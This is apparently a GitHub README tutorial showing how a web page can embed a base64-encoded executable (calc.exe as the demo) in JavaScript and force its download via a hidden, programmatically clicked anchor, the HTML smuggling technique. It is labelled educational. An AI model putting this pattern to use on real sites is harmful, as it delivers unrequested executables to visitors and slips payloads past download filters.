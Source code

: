 # INSTANT File Downloads Using JavaScript:
## Instantly download a file from your web page into the users computer Using a JavaScript Script.
<br />

## For this demonstration I'm going to use Windows for the System and The Calculator app located at 'C:\Windows\System32\calc.exe'


---

# Steps
* Get The Content of Calc.exe in Powershell by running 
```powershell
(Get-Content C:\Windows\System32\calc.exe)
```
this will output a bunch of data representing Calc.exe

* Run The following Command to Base64 encode the output.
```powershell
$base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('C:\Windows\System32\calc.exe'))
```
this will Encode the data into Base64 String making it easier to work with.

* Now to Output the $base64string variable we need to put the data in a file, run the following command to write the data into a file.
```powershell
$base64string | Out-File TempData.log
```
* now open the file up in your favorite code editor or just use notepad by running the command:
```powershell
notepad.exe TempData.log
```
* Copy the Whole Data and paste it in the [script.js](script.js) Variable named 'filedata'


## After copying the base64 encoded data into that variable now we can start to code the whole script.js file
* first of we're going to create a function to convert the base64 data into Bytes
```js
function base64tobytes(base64data){
    var binaryValues = atob(base64data);
    var binaryLength = binaryValues.length
    var bytesData = new Uint8Array(binaryLength);

    for ( var i = 0; i < binaryLength; i++){
        bytesData[i] = binaryValues.charCodeAt(i);
    }

    return bytesData.buffer;
}
```
i'm not gonna get into this much because it's basic js and im just using built-in Library in JavaScript and There's a lot of documentations online for these.

---

* Now we're going to pass the data into the function
```js
var fileBytes = base64tobytes(filedata); 
```

* now we're going to defind a new Blob it has to be a new Blob because this is a object.
```js
var blob = new Blob([fileBytes], {"type":"octet/stream"});
```
* now we have to force the user into downloading, we can do that by creating an html anchor tag.
```js
var anchor = document.createElement("a");
document.body.append(anchor);
// we can hide the anchor by using some basic CSS
anchor.style = "display: None;"
```
* now the important part, we need to create a url that reach out for the blob we created earlier.
```js
var url = window.URL.createObjectURL(blob);
anchor.href = url;
```
* and finally we want to force that to download, we can do it by simply putting:
```js
anchor.download = filename;
```
* now we do need to force and click on that a tag HTML element.
```js
anchor.click();
```
* If you want to remove after the download put this in your code.
```js
window.URL.revokeObjectURL(url);
```
Now you can check that calc.exe is working fine with all of it's funcationality.
# **for educational purposes Only!**
